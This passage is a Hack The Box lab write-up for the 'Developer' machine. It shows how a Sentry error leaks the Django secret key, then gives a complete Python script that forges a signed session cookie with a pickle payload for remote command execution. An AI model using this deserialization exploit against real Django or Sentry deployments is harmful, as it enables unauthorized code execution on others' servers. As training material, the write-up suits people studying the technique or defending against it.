 Registering new account and login don't give anything intresting. but login with django admin creds with email `Jacob@developer.htb` got admin panel in sentry.

## Django Deserialization



And there's the issue, when we create a project and then try to remove it. api through an error; [full error](screenshots/ApiError.png)

And this error leaks the django webapp secret key

![](screenshots/sentry-secret.png)



* There is a blog post on django Remote Code Execution using api secret key from [blog.scrt.ch](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/)


Here's the exploit script, *copied from 0xdf blog*
```py
import os
import django.contrib.sessions.serializers
import django.core.signing
import requests
import sys


cmd = sys.argv[1]
SECRET_KEY = 'c7f3a64aa184b7cbb1a7cbe9cd544913'
cookie = ".eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-hQyRXABhUpSi0uS8_OzM1PBWsrzi7JTU0KF4hNLSzLiS4tTi-KTEpOzU_NSQpUgxumVlmTmFOuB5PVccxMzcxyBLCeoGl4kfZkp3qylegCrOjNK:1m45xH:Zcs2GcAl2Knls_STRUkB22PKJlg"
newContent = django.core.signing.loads(cookie, key=SECRET_KEY,
                                       serializer=django.contrib.sessions.serializers.PickleSerializer,
                                       salt='django.contrib.sessions.backends.signed_cookies')


class PickleRce(object):
    def __reduce__(self):
        return os.system, (cmd,)


newContent['testcookie'] = PickleRce()

cookie = django.core.signing.dumps(newContent, key=SECRET_KEY,
                                   serializer=django.contrib.sessions.serializers.PickleSerializer,
                                   salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print("Forged cookie:\n" + cookie)

requests.get("http://developer-sentry.developer.htb/sentry/", cookies={"sentrysid": cookie})
```
